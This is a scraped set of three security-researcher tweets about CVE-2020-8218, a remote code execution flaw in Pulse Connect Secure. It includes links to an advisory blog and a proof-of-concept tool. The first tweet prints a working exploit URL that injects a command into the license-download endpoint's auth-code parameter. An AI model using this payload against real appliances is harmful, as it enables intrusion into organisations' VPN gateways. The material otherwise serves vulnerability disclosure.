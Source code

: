 
# jas502n
**https://twitter.com/jas502n/status/1300245292508307456 _at 2020-08-31 01:33:29_**
<blockquote>
RCE in Pulse Connect Secure RCE (CVE-2020-8218) &lt; v9.1R8

POC:
https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever%20-n%20%27($x=%22ls%20/%22,system$x)%3b%20%23%27%20-e%20/data/runtime/tmp/tt/setcookie.thtml.ttc
 https://t.co/u56yPrxO6R
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

# 0xrb
**https://twitter.com/0xrb/status/1300022222459777024 _at 2020-08-30 10:47:05_**
<blockquote>
Proof of concept tool to test for the existence of #PulseSecure #RCE (CVE-2020-8218) https://t.co/93AvVBq1WN
</blockquote>

* https://github.com/withdk/pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# Dinosn
**https://twitter.com/Dinosn/status/1299964418256707586 _at 2020-08-30 06:57:24_**
<blockquote>
Proof of concept tool to test for the existence of Pulse Secure RCE (CVE-2020-8218) https://t.co/wYv8IzMoFA
</blockquote>

* https://github.com//withdk//pulse-gosecure-rce-poc

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>93</code></td>
</tr></table>

---